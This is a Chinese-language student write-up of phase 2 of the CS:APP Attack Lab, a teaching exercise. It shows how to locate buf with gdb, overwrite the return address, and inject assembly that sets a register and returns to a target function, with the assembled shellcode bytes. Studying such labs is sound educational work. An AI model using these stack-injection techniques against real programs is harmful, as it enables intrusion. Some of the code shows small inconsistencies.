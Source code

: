 首先，要完成第一步，我们首先得找到 buf 的开头位置。通过 phase 1 的 getbuf 我们可以知道，buf 的位置在压完返回地址后减去 40 个字节的位置。因为前三问的栈的位置固定，因此我们可以通过 gdb 看一下减去 40 以后`%rsp`在哪里。

我们着重观察 3 个地方的`$rsp`：

1. 调用`getbuf`之前: 0x5561dca8
2. 调用`getbuf`之后: 0x5561dca0
3. 调用`rsp = rsp - 40`之后: 0x5561dc78

那么我们可以判断 buf 的起始位置是`0x5561dc78`，返回地址的位置在其后 40 个字节处，也就是`0x5561dca0`。那么我们需要让 return address(buf 最后 8 个字节)的值等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

第二条要生成的指令应该是:

```
movl $0x6044e4,%eax
movl (%eax),%edi
```

第三条要生成的指令应该是：

```
subq $0x8,%rsp
movl 0x4017ec,($rsp)
```

最后一条插入的指令是`ret`，在这个过程中，`%rsp`处的内容会被赋值给`%rip`，`%rsp`会自动加上 8。

最后插入数条`nop`指令实现 PC 的顺序累加。

由于这些指令在 Appendix A 表格中没有，所以我们需要手动生成。我们将如下内容保存在文件中：

```
    movl $0x6044e4,%eax
    movl (%eax),%edi
    subq $0x8,%rsp
    movl $0x4017ec,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

然后使用`gcc -c ph2.s`生成`ph2.o`文件，然后使用`objdump -d ph2.o > ph2.d`，打开`ph2.d`，有如下内容：

```

ph2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	b8 e4 44 60 00       	mov    $0x6044e4,%eax
   5:	67 8b 38             	mov    (%eax),%edi
   8:	48 83 ec 08          	sub    $0x8,%rsp
   c:	c7 04 24 ec 17 40 00 	movl   $0x4017ec,(%rsp)
  13:	c3                   	retq
  14:	90                   	nop
  15:	90                   	nop
  16:	90                   	nop
  17:	90                   	nop
```
